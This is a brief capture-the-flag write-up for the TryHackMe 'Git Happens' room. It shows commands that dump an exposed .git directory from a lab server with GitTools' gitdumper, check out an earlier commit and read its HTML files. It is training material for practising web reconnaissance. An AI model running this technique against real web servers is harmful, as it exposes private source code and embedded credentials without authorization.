 ```yaml
---
description: https://tryhackme.com/room/githappens
---
```


# Git Happens

## :writing\_hand: Solution

```bash
./gitdumper.sh http://10.10.54.98/.git/ git
cd git/
git log
git checkout 395e087334d613d5e423cdf8f7be27196a360459
cat index.html
cat dashboard.html
```

![](<../../.gitbook/assets/Screenshot from 2020-09-28 14-00-11.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-28 14-00-16.png>)

## :link: Support Material

{% embed url="https://github.com/internetwache/GitTools" %}

